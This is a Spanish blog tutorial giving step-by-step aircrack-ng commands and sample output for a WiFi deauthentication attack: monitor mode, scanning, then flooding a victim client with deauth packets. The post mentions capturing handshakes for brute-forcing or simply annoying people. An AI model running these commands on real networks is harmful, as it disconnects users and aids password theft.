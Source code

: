 ```yaml
---
layout: post
author: S3K0NDZ
title: Ataque Deauth
image: http://drive.google.com/uc?export=view&id=1X2HuSZu3FkNzNnfY9gB1dsOkrtK2Ryli
description: Como realizar un ataque de desautenticación.
tipo: tecnicas
---
```

Hoy voy a describir el paso a paso de como realizar un deauther atack, estas pruebas están realizadas en un entorno controlado y se enseña con fines educativos. 

## Materiales

* Un adaptador de red wifi con posibilidad de actuar en modo monitor

## Herramientas

* iwconfig 
* airodump-ng 
* aireplay-ng

## Procedimiento

El primer paso es utilizar el comando ifconfig para ver que tenemos nuestro adaptador de red conectado correctamente, he sustituido por asteriscos cierta información sensible, esto no tiene mayor relevancia para la explicación.

```
wlxd037452a2463: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 2312
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 **********  prefixlen 64  scopeid 0x20<link>
        ether **********  txqueuelen 1000  (Ethernet)
        RX packets 10823  bytes 4687337 (4.4 MiB)
        RX errors 0  dropped 28  overruns 0  frame 0
        TX packets 2095  bytes 481408 (470.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Una vez hemos identificado nuestro adaptador procedemos a verificar en que modo está, para ello tenemos que usar el siguiente comando.

```
iwconfig (identificador de tu adaptador)
```

En mi caso: 
```
iwconfig wlxd037452a2463
```

Podemos ver como mi adaptador está en modo <b>managed</b>.
```
wlxd037452a2463  IEEE 802.11AC  ESSID:"MI SSID"
          Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency:5.18 GHz  Access Point: 
          MI MAC  
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:****-****-****-****-****-****-****-****   
          Security mode:open
          Power Management:off
          Link Quality=81/100  Signal level=-48 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

Para cambiarlo a modo <b>monitor</b> es de la siguiente manera. 

```
iwconfig (identificador de tu adaptador) mode monitor
```

En mi caso.
```
iwconfig wlxd037452a2463 mode monitor
```

Ahora si hacemos un iwcofig podemos ver como ya se encuentra en modo monitor
```
wlxd037452a2463  IEEE 802.11AC  ESSID:"MI SSID"
          Nickname:"<WIFI@REALTEK>"
          Mode:Monitor  Frequency:5.18 GHz  Access Point: 
          MI MAC
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality=77/100  Signal level=-48 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

Vale una vez hecho esto vamos levantar el interfaz, para ello hacemos lo siguiente. 

```
ifconfig (identificador de tu adaptador) up 
```
En mi caso. 
```
ifconfig wlxd037452a2463 up 
```


Ahora vamos a usar la siguiente herramienta, que se llama <b>aerodump-ng
</b>
para ello vamos a escanear todas las AP y los clientes que están conectadas a las mismas. 
```
airodump-ng wlxd037452a2463
```
Vamos a ver que nos aparece lo siguiente.
```
CH  9 ][ Elapsed: 12 s ][ 2022-08-30 02:11 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

01:01:01:01:01:01   -76        0        2    0 100   -1   WPA              <length:  0>                                                                                     
01:01:01:01:01:01  -81         1        0    0  11 1733   WPA2 CCMP   PSK  **PRUEBA_REAL**                                                                                
01:01:01:01:01:01   -76        0        0    0  48 1733   WPA2 CCMP   PSK  **Prueba**                                                                                    
01:01:01:01:01:01   -82        1        1    0  44 1170   WPA2 CCMP   PSK  **Prueba**                                                                                  
01:01:01:01:01:01   -76        1        0    0  44 1733   WPA2 CCMP   PSK  **Prueba**                                                                                     
01:01:01:01:01:01   -76        1        0    0  44 1733   WPA2 CCMP   PSK  **Prueba**                                                                               
                                                               

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

01:01:01:01:01:01    01:01:01:01:01:01   -1     6e- 0      0        Prueba                                                                                                         
01:01:01:01:01:01    01:01:01:01:01:01   -53    0 - 1      0        2         Prueba                                                                                   
                                                                               
```

Por motivos de seguridad he censurado los ssid y las mac de las redes que aparecen. 

Ahora bien, tenemos todas las redes a las cuales podemos realizar un ataque, pero ¿a que cliente queremos desautenticar? y ¿como lo hacemos?

Bien para responder a estas dos preguntas, primero tenemos que aplicar un filtro para reconocer los potenciales clientes que nos interesan. 

```
airodump-ng 
--ssid 01:01:01:01:01:01 (BSSID de las estación que queremos filtrar, la tabla superior)           
--channel 11 (Ponemos el canal en el cual opera dicha estación)
 wlxd037452a2463(Nuestro adaptador de red)
```

```
airodump-ng --essid 01:01:01:01:01:01 --channel 11 wlxd037452a2463
```
Ahora veremos como en la parte inferior detectamos todos los dipositivos conectados a dicha red.

```
 CH 11 ][ Elapsed: 36 s ][ 2022-08-30 02:28 ][ display sta only

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   01:01:01:01:01:01  -83    0 - 6      0        2                     

```                                                                                     
Para desautenticar simplemente tendremos que usar la herramienta llamada aireplay-ng
              
``` 
aireplay-ng 

--deauth (Tipo de ataque)

1000 (Número de paquetes que queremos enviar)

-e Prueba (SSID de la estación víctima)

-c 01:01:01:01:01:01 (MAC víctima)

wlxd037452a2463 (Nuestro adaptador de red en modo monitor)
              
``` 

``` 
aireplay-ng --deauth 1000 -e Prueba -c 01:01:01:01:01:01 wlxd037452a2463

``` 

Una vez le damos a enter, se envia le número de paquetes de deauth que hemos establecido y mientras este proceso esté ejecutándose, el equipo víctima no se podrá conectar a la red, esta técnica sirve entre otras cosas por ejemplo para capturar el handshake para posteriormente romperlo con fuerza bruta o simplemente para molestar. 

Gracias por leer! 


